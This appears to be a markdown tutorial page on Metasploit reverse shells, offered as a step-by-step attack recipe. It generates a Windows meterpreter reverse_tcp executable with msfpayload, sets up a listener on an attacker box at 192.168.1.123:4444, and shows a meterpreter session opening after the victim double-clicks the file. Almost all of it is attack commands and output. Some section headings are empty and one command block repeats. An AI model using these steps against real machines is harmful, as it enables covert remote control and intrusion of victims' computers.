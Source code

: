 # List of Metasploit reverse shells
To get a list of reverse shells, use the `msfpayload` command. B
```bash
./msfpayload -l |grep reverse
```

### Windows common reverse shell
### Linux common reverse shell
## How to set up for a reverse shell during payload generation
### Step 1: Generate the executable payload
On the attacker's box, run `msfpayload` or `msfvenom`:
```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/reverse_tcp
Length: 287
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}
```

### Step 2: Copy the executable payload to box B
### Step 3: Set up the payload handler on box A
Box A is the attacker machine.
```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
```

### Step 4: Double-click on the malicious executable
### Step 5: View the meterpreter/payload session on box A

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500
meterpreter >
```


